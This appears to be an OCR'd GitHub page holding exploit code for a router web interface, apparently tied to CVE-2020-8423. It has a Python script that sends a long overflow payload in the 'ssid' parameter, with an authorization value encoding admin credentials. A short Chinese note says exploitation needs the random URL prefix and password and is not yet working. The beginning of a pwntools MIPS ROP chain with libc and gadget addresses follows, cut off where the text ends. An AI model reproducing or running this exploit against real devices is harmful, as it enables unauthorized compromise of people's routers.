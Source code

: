 ```python
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie":"Authorization=Basic{cookie}".format(cookie=str(cookie))
        }
    payload="/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac"
    params = {
    "mode":"1000",
    "curRegion":"1000",
    "chanWidth":"100",
    "channel":"1000",
    "ssid":urllib.request.unquote(payload)
    }
    url="http://192.168.0.1:80/{path}/userRpm/popupSiteSurveyRpm.htm".format(path=str(path))
    resp = session.get(url,params=params,headers=headers)
    print (resp.text)
exp("UGHOCXOCKPNZQZUB","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
```

授权
%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D

## 说明

此漏洞需要每次知道url的第一段内容，此内容是随机生成的，利用前提需要访问web端得知，且授权需知道密码
同CVE-2020-8423还没调试达到利用效果
```python
#!/usr/bin/python  
from pwn import *  
import requests  
import socket  
import socks  
import urllib  
import struct  
  
default_socket = socket.socket  
socket.socket = socks.socksocket  
session = requests.Session()  
session.verify = False  
context.endian = 'big'   
libc_base=0x77f39000   
sleep =0x53CA0 #end 00053ECC  
  
#gadgets  
g1=0x000E204 #0x77F47204  
#LOAD:0000E204                 move    $t9, $s1  
#LOAD:0000E208                 jalr    $t9 ; sysconf  
#LOAD:0000E20C                 li      $a0, 3  
g2=0x00037470  
#LOAD:00037470                 move    $t9, $s2  
#LOAD:00037474                 lw      $ra, 0x28+var_4($sp)  
#LOAD:00037478                 lw      $s2, 0x28+var_8($sp)  
#LOAD:0003747C                 lw      $s1, 0x28+var_C($sp)  
#LOAD:00037480                 lw      $s0, 0x28+var_10($sp)  
#LOAD:00037484  
#LOAD:00037484 loc_37484:  
#LOAD:00037484                 jr      $t9 ; xdr_opaque_auth  
#LOAD:00037488                 addiu   $sp, 0x28  
g3=0x0000E904 #0x77f47904  
#LOAD:0000E904                 addiu   $a1, $sp, 0x168+var_150  
#LOAD:0000E908                 move    $t9, $s1  
#LOAD:0000E90C                 jalr    $t9 ; stat64  
```